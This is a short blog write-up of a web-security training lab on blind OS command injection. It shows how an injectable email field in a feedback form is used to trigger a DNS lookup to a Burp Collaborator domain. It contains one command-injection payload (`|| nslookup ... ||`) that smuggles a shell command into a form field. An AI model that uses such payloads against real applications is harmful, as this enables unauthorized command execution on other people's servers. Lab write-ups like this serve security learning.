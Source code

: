 ```yaml
---
layout: post
title:  "Blind OS command injection with out-of-band interaction"
date:   2024-10-15 11:20:54 +0530
---
```


## Objective 

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

## Solution 

Just like the other lab, we have a feedback submission form 

![]({{ site.baseurl }}/assets/images/os-10.png)

We know that email field is vulnerable to OS command injectiion and in order to solve the lab we need to get the pingback from the server through the collaborator and utilising the following payload `|| nslookup cxd2y4s3h3mgzbw27bjospudj4pvdl1a.oastify.com ||` 

Now place the following payload into the email parameter... url encode, sent the request and response as expected without an error 

![]({{ site.baseurl }}/assets/images/os-11.png)

Checking the collaborator, we got a DNS pingback 

![]({{ site.baseurl }}/assets/images/os-12.png)

As mentioned in lab description, We got the DNS pingback and that solves the lab 